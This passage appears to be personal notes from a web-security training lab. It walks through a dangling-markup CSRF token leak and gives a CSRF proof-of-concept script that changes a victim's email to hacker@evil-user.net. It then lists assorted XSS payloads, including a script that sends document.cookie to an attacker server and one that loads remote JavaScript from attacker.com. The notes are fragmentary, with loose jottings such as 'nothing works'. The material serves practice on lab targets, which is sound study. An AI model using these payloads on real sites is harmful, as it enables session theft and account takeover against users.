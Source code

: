 ```
GET /exploit?%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%20type=%22hidden%22%20name=%22csrf%22%20value=%22jOBONqhb2sgP2zCGMhKC3rb91j1TAlWX%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class= HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36".
```
6. URL decode the query string and note the CSRF token.
7. Go back to the exploit server. Replace the contents of the Body field with the following CSRF PoC, substituting ``YOUR-LAB-ID`` with the ID of your lab, and ``STOLEN-CSRF-TOKEN`` for the CSRF token you copied from the access log:
```html
<body>
<script>
let form = document.createElement('form');
form.action='https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email';
form.method='post';
let input = document.createElement('input');
input.name = 'email';
input.value = 'hacker@evil-user.net';
let csrf = document.createElement('input');
csrf.name = 'csrf';
csrf.value = 'STOLEN-CSRF-TOKEN';
form.append(csrf);
form.append(input);
document.body.appendChild(form);
form.submit()
</script>
</body>
```
8. Click Store and Deliver exploit to victim. The user's email will be changed to ``hacker@evil-user.net``.

additional payload with " escaped:

\"+alert(1)}//


tag:
nothing works

the payload to add after productid in url if everything fails:

&storeId="></select><img%20src=1%20onerror=alert(1)>


## BONUS: XSS payloads from Vickie Li and EdOverflow

<script>location="http://attacker.com";</script>

<script src=http://attacker.com/xss.js></script>

<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>

<img onload=alert('The image has been loaded!') src="example.png">
